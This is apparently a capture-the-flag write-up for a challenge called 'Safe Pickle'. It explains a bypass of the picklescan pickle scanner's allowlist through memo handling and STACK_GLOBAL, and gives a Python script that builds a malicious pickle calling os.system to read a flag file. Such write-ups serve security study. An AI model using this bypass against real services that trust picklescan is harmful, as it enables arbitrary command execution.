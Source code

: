# Safe Pickle

* Round: 39 (2023/10)
* Category: Misc
* Points: 100
* Solves: 7

## Description

Safe pickle deserializing service powered by [picklescan](https://github.com/mmaitre314/picklescan)!

## Solution

The [way](https://github.com/mmaitre314/picklescan/blob/40001cd1caa9e041b1bce1b80f3707056cd8be52/src/picklescan/scanner.py#L193) picklescan handles memo doesn't look at the argument, so it is possible to have a different memo and use `STACK_GLOBAL` to bypass allowlist checking.

```python
import pickle, base64

pkl = b''.join([
    pickle.UNICODE + b'os\n',
    pickle.PUT + b'2\n',
    pickle.POP,
    pickle.UNICODE + b'system\n',
    pickle.PUT + b'3\n',
    pickle.POP,
    pickle.UNICODE + b'torch\n',
    pickle.PUT + b'0\n',
    pickle.POP,
    pickle.UNICODE + b'LongStorage\n',
    pickle.PUT + b'1\n',
    pickle.POP,

    pickle.GET + b'2\n',
    pickle.GET + b'3\n',
    pickle.STACK_GLOBAL,

    pickle.MARK,
    pickle.UNICODE + b'cat flag.txt\n',
    pickle.TUPLE,

    pickle.REDUCE
]) + b'.'
print(base64.b64encode(pkl).decode())
```
